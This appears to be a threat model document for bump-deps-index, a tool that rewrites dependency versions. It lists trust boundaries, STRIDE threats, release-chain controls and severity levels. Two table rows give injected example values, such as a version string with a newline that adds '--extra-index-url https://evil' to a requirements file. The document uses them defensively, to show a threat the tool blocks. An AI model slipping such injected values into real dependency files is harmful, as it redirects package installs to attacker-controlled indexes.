

# Threat model

This model says what bump-deps-index trusts, where untrusted input enters, and which guarantees hold at each boundary,
so a report can be classified as a vulnerability or a bug. [SECURITY.md](SECURITY.md) covers reporting; if the two
disagree, SECURITY.md wins and we fix this file.

## How bump-deps-index works

bump-deps-index finds supported files in the project (requirements files, `pyproject.toml`, `setup.cfg`, `tox.ini`,
`tox.toml`, PEP 723 script metadata, `package.json`, `.pre-commit-config.yaml`), asks the configured PyPI-style simple
indexes and npm registries for each package's releases, and rewrites only the version text in place, preserving the
file's layout. Python versions are parsed as PEP 440; npm versions must match semver. For pre-commit hooks it fetches
the hook repository's `.pre-commit-hooks.yaml` at the pinned `rev` to learn which hooks install Python or Node
dependencies.

## Compared with similar tools

We drew the boundary where comparable projects in other ecosystems draw theirs. The shared rule, stated by the
[Node.js threat model](https://github.com/nodejs/node/blob/main/SECURITY.md#the-nodejs-threat-model), is that a report
which first needs a trusted element compromised is out of scope; the first triage question, as
[DOMPurify](https://github.com/cure53/DOMPurify/blob/main/SECURITY.md#what-we-consider-a-vulnerability) puts it, is what
the attacker controls.

| Project                                                             | Language   | Where it draws the line                                                                                                                                                  |
| ------------------------------------------------------------------- | ---------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| [Renovate](https://github.com/renovatebot/renovate/security/policy) | TypeScript | Dependency updater; private advisories, published about a month after the fix ships.                                                                                     |
| [pnpm](https://github.com/pnpm/pnpm/security/policy)                | JavaScript | Draws its boundary at filesystem permissions: the store, project, lockfile and configuration are trusted, and running it in a repository means trusting that repository. |
| [npm CLI](https://github.com/npm/cli/security/policy)               | JavaScript | Follows GitHub's open source reporting policy, which defines no scope of its own.                                                                                        |

## Trusted

An attacker who controls any of these already has what bump-deps-index could give them:

- The user, the command line and the project files it edits.
- The configured indexes and registries, pip, uv and npm configuration (`pip.conf`, `uv.toml`, `.npmrc`), and the
  credentials in them.

## Untrusted inputs

| Input                                     | Comes from                            | What bump-deps-index guarantees                                                                                                            |
| ----------------------------------------- | ------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------ |
| Release lists from indexes and registries | Anyone who can publish a package      | Only strings that parse as a PEP 440 or semver version are written; yanked files and files of other projects on an index page are skipped. |
| Hook manifests                            | Hook repositories at the pinned `rev` | Parsed with YAML `safe_load` and used only to classify hooks.                                                                              |
| Error text from indexes and registries    | The configured hosts                  | Credentials in URLs are redacted before an error is printed.                                                                               |

## Threats and controls

| STRIDE                 | Threat                                                                         | Control                                                   |
| ---------------------- | ------------------------------------------------------------------------------ | --------------------------------------------------------- |
| Tampering              | A version string with a newline adds `--index-url evil` to `requirements.txt`. | Versions must parse before they are written.              |
| Information disclosure | An npm token is sent to the wrong registry.                                    | Credentials are looked up per registry URL from `.npmrc`. |
| Elevation of privilege | A hook manifest uses a YAML tag to run code.                                   | YAML is loaded with `SafeLoader`.                         |

## Release chain

Releases run on the shared [tox-dev/github-workflows](https://github.com/tox-dev/github-workflows) pipeline. A release
App, not a person, pushes the release commit and tag; the build installs its tools from a hash-checked `pylock.toml`
resolved with a seven-day upload cooldown by default; PyPI receives the files through
[trusted publishing](https://docs.pypi.org/trusted-publishers/) with attestations, and the GitHub Release is immutable.
Every workflow pins third-party actions to a commit SHA.

## Vulnerability or bug

| Report                                                                                    | Verdict             | Why                                              |
| ----------------------------------------------------------------------------------------- | ------------------- | ------------------------------------------------ |
| A registry returns version `1.0.0\n--extra-index-url https://evil` and it lands in a file | Vulnerability       | Untrusted data escaped the version field.        |
| The tool upgrades to a freshly published malicious release                                | Not a vulnerability | It reports what the index offers; use cooldowns. |
| A comment in `pyproject.toml` is reformatted                                              | Bug                 | Layout preservation, no boundary.                |

## Severity

- **High:** a credential sent to a host other than the registry it is configured for, or index data written into a file
  as anything other than a version.
- **Medium:** a yanked release or another project's file chosen as an update, a file the run did not select edited, or a
  credential printed unredacted.
- **Low:** a crash on a malformed index response instead of a clean error.

## Accepted risks

- The tool trusts TLS to the configured hosts; it does not verify release signatures.

## Keeping this current

Revisit this model when bump-deps-index gains a new input source, network access, a new way to run code, or a new place
it writes to, and whenever an advisory is published.
